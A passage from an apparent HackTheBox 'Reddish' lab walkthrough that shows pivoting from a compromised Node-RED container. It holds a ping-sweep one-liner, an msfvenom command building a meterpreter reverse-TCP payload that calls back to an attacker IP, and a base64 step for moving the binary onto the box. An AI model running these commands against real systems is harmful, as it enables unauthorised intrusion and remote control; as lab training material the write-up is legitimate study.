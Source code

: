 → **nodered** machine : **172.19.0.4**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/2020-08-22_02_07_05-Window.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/2020-08-22_02_07_05-Window.png)

## Pivoting to 2nd Machine

→ Lets perform a pingsweep to discover hosts :

**for i in {1..254} ;do (ping -c 1 172.19.0.$i | grep "bytes from" &) ;done**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2010.png)

⇒ Lets get an meterpreter shell :

1) Lets generate msfvenom shell

**msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.45 LPORT=5555 -f elf > enox**

2) Convert it to base64 as there are no tools on the box that we can use to get our file :
[https://base64.guru/converter/encode/file](https://base64.guru/converter/encode/file)

3) Write the base64 encoded text to file and decode and out to file :

**cat shellbase64ed | base64 -d > shell**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2011.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2011.png)

⇒ Now lets setup proxychains :
